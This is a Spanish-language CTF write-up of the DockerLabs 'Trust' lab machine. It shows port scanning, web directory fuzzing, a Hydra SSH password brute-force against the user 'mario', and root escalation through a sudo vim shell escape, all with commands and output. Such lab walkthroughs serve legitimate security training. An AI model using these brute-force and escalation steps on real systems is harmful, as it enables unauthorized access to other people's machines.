 ```yaml
---
title: CTF-DockerLabs-Trust
published: true
---
```


## WriteUps maquina Trust de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Trust
>  **Nombre:** Trust
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

![dockerlabsTrust.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dockerlabsTrust.png)

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:


```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 19:14 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y encuentro una pagina por defecto de apache: `Apache2 Debian Default Page,` lo próximo que hago es ver su código fuente y no encuentro nada fuera de la común. 

# Fuzzing Web

> El siguiente paso que procedo a realizar es un fuzzing web puesto que tengo un servidor web corriendo en la maquina, así que utilizo `dirbuster` y el resultado es el siguiente:

```bash
└─# dirbuster 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
File found: /secret.php - 200
Dir found: /server-status/ - 403
DirBuster Stopped
```

Puedo ver en el resultado que existe un archivo llamado `secret.php` que al visitarlo me muestra:

![SecretTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/SecretTrustDockerlabs.png)

En su código fuente de la pagina, no me muestra nada interesante, pero recordando que existe el `sevicio ssh en el puerto 22` utilizo el nombre de usuario `mario` para realizar fuerza bruta.

# Fuerza bruta SSH

> Ya que la web no nos da mucha información, pero si proporciona un posible usuario, procedo a utilizar `hydra` para hacer un ataque de fuerza bruta de la siguiente manera:


```bash
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: QnVzY2EgbGEgY2xhdmUgZW4gb3RybyBsYWRvCg==
1 of 1 target successfully completed, 1 valid password found
```

Y listo, con esto ya logro acceder por `ssh`, con el usuario `mario` y la contraseña encontrada.

`ssh mario@172.17.0.2`

# Escalada de privilegios

> Ahora que tengo acceso con el usuario `mario` procedo a escalar privilegio y para ello coloco primeramente: `sudo -l` lo que me da como resultado:

```bash
~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 30dc76e27a9d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 30dc76e27a9d:
    (ALL) /usr/bin/vim
```

# PWNED

Así que procedo ir a la web [GTFOBins](https://gtfobins.github.io/) para ver como elevar privilegios utilizando `vim` con `sudo` y el resultado es que si coloco el siguiente comando `vim -c ':!/bin/sh'` con la palabra `sudo` lograría ingresar con el usuario root.

![pwnedTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedTrustDockerlabs.png)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh trust.tar`
> `nmap 172.17.0.2`
> `dirbuster`
> `hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
> `ssh mario@172.17.0.2`
> `sudo vim -c ':!/bin/sh'`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |
